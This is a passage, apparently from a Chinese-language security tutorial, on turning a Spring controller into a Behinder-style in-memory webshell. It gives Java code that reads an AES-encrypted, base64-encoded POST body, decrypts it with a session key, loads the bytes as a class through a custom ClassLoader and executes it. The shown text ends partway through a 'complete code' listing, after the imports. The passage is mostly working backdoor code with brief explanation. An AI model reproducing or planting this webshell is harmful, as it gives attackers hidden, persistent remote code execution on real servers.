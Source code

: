 要特别注意pageContext这个对象，它是jsp文件运行过程中自带的对象，可以获取request/response/session这三个包含页面信息的重要对象，对应pageContext有getRequest/getResponse/getSession方法，所以注入的controller代码中，可以将pageContext换成一个Map，手动添加key和value即可。
冰蝎马需要继承ClassLoader后调用父类的defineClass，当然也可以用反射，但是这样更方便而已。对恶意类稍加改造，继承ClassLoader、定义新的构造函数、增加g函数、添加冰蝎的服务端代码
##### 基本逻辑
```java
public HttpServletResponse test() throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidKeyException, IOException, BadPaddingException, IllegalBlockSizeException, IllegalAccessException, InstantiationException {
    HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
    HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
    HttpSession session = request.getSession();
    if (request.getMethod().equals("POST")) {
        session.setAttribute("u", this.k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(this.k.getBytes(), "AES"));
        HelloWorldController helloWorldController = new HelloWorldController(ClassLoader.getSystemClassLoader());
        String base64String = request.getReader().readLine();
        byte[] bytesEncrypted = new sun.misc.BASE64Decoder().decodeBuffer(base64String);
        byte[] bytesDecrypted = c.doFinal(bytesEncrypted);
        Class newClass = helloWorldController.g(bytesDecrypted);
        Map<String, Object> pageContext = new HashMap<String, Object>();
        pageContext.put("session", session);
        pageContext.put("request", request);
        pageContext.put("response", response);
        newClass.newInstance().equals(pageContext);
    }
    return response;
}
```
完整代码如下：
```java
package com.spring.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.*;
```